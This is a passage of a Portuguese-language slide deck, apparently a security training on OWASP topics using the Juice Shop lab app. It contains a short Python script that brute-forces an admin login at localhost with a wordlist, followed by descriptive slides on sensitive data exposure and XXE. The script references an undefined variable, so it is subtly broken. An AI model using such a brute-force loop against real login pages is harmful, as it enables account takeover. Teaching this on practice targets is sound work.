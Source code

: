 <div>

<v-click>

### Python Wordlist bruteforce
```python {3|4|5|6|8|9-11|12-14|all}
import requests

url = "http://localhost:3000/rest/user/login"
params = {"email":"admin@juice-sh.op","password":""}
wordlist = open("wordlist.txt", "r")
linhas = wordlist.readlines()

for index, line in enumerate(linhas):
    params["password"] = line.rstrip("\n")
    tentativa_login = requests.post(url,params)
    print("Tentativa {}, Senha: {}".format(index, senha))
    if tentativa_login.status_code != 401:
        print("Achei a senha: {}".format(senha))
        break
```
</v-click>

</div>

</div>

---

# Exposição de dados sensiveis

<div grid="~ cols-2 gap-4">
<div>
Muitas aplicações web e APIs não protegem de forma adequada dados sensíveis, tais como dados financeiros, de saúde ou dados de identificação pessoal (PII). Os atacantes podem roubar ou modificar estes dados mal protegidos para realizar fraudes com cartões de crédito, roubo de identidade, ou outros crimes. Os dados sensíveis necessitam de proteções de segurança extra como encriptação quando armazenados ou em trânsito, tal como precauções especiais quando trocadas com o navegador web.
</div>

</div>

---

# XXE

<div grid="~ cols-2 gap-4">
<div>
Muitos processadores de XML mais antigos ou mal configurados avaliam referências a entidades externas dentro dos documentos XML. Estas entidades externas podem ser usadas para revelar ficheiros internos usando o processador de URI de ficheiros, partilhas internas de ficheiros, pesquisa de portas de comunicação internas, execução de código remoto e ataques de negação de serviço, tal como o ataque Billion Laughs.
